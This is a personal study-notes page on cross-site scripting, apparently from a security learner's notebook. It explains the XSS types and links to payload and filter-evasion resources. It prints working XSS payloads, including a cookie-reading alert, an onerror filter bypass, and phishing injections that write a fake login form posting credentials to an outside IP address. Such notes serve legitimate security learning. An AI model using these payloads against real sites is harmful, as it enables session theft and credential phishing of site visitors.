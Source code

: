 ```yaml
---
{"dg-publish":true,"permalink":"/net/sec/cross-side-scripting/"}
---
```


- When a vulnerable web application does not properly ==sanitize user input==, a malicious user can inject extra JavaScript code in an input field (e.g., comment/reply)
- another user views the same page
	- they unknowingly execute the malicious JavaScript code.
## XSS Types


- [[Stored XSS\|Stored XSS]]
- [[net/sec/xss/Reflected XSS\|Reflected XSS]]
- [[DOM-based XSS\|DOM-based XSS]]


| Type                             | Description                                                                                                                                                                                                                                            |
| -------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `Stored (Persistent) XSS`        | The most critical type of XSS<br>-  occurs when user input is **stored on the back-end database** and then **displayed upon retrieval**                                                                                                                |
| `Reflected (Non-Persistent) XSS` | Occurs when user input is displayed on the page after being processed by the backend server<br>-  but without being stored <br>-  search result or error message                                                                                       |
| `DOM-based XSS`                  | Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side<br>-  without reaching the back-end server (e.g.<br>-  through client-side HTTP parameters or anchor tags) |


## Examples


```html
<script>alert('999');</script>
```

```html
<script>alert(document.cookie);</script>
```

_If alert is blocked_


```html
<script>alert(window.origin)</script>
```

_If script is blocked_

```html
<img src="" onerror=alert(window.origin)>
```

<div class="transclusion internal-embed is-loaded"><a class="markdown-embed-link" href="/xss-payloads/" aria-label="Open link"><svg xmlns="http://www.w3.org/2000/svg" width="24" height="24" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round" class="svg-icon lucide-link"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a><div class="markdown-embed">





- [GitHub - payloadbox/xss-payload-list: 🎯 Cross Site Scripting ( XSS ) Vulnerability Payload List](https://github.com/payloadbox/xss-payload-list)
- [PayloadsAllTheThings/XSS Injection/README.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)

---

- [Cross-Site Scripting (XSS) Cheat Sheet - 2023 Edition | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [TOPXSS.md](https://github.com/reddelexc/hackerone-reports/blob/master/tops_by_bug_type/TOPXSS.md)
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- https://forum.bugcrowd.com/t/how-to-make-more-harmful-injection-in-img-src-with-no-csp-and-trigger-js-in-img-tag/5229
- https://tryhackme.com/r/room/axss
- https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-html
- https://www.invicti.com/learn/xss-filter-evasion/


<div class="transclusion internal-embed is-loaded"><a class="markdown-embed-link" href="/xss-filter-evasion/" aria-label="Open link"><svg xmlns="http://www.w3.org/2000/svg" width="24" height="24" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round" class="svg-icon lucide-link"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a><div class="markdown-embed">




- https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html **([[Open Worldwide Application Security Project\|OWASP]])**


</div></div>


</div></div>

```html
const name = new URLSearchParams(window.location.search).get('name');
console.log("Hello, " + name);
```

```
fetch('http://localhost').then(response => console.log(response.blob()));
```
## Form Injection for [[Phishing\|Phishing]]

- [Cross-site scripting (XSS) - Security \| MDN](https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/XSS)
- [F​​e​tc​h​​i​​n​​g ​T​i​tl​e​](https://www.securecodewarrior.com/guidelines/injection-xss)
```js
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.11><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```


```javascript
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.11><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove() <!--;
```

## Tools

[[XSStrike\|XSStrike]]